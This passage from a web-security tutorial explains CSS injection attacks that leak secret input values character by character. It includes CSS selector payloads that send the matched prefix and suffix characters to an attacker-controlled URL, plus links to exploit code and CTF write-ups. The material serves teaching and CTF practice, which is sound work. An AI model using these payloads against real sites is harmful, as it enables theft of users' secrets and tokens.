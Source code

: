 The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [**Pepe Vila's code to exploit this here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](./#css-injection)

> [!NOTE]
> The script will try to discover 2 chars each time (from the beginning and from the end) because the attribute selector allows to do things like:
>
> ```css
> /* value^=  to match the beggining of the value*/
> input[value^="0"] {
>   --s0: url(http://localhost:5001/leak?pre=0);
> }
>
> /* value$=  to match the ending of the value*/
> input[value$="f"] {
>   --e0: url(http://localhost:5001/leak?post=f);
> }
> ```
>
> This allows the script to leak the secret faster.

> [!WARNING]
> Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
> No worries, just check the **output** because **you can see the flag there**.

### Other selectors

Other ways to access DOM parts with **CSS selectors**:

- **`.class-to-search:nth-child(2)`**: This will search the second item with class "class-to-search" in the DOM.
- **`:empty`** selector: Used for example in [**this writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**

  ```css
  [role^="img"][aria-label="1"]:empty {
    background-image: url("YOUR_SERVER_URL?1");
  }
  ```

### Error based XS-Search

**Reference:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

The overall intention is to **use a custom font from a controlled endpoint** and ensure that **text (in this case, 'A') is displayed with this font only if the specified resource (`favicon.ico`) cannot be loaded**.
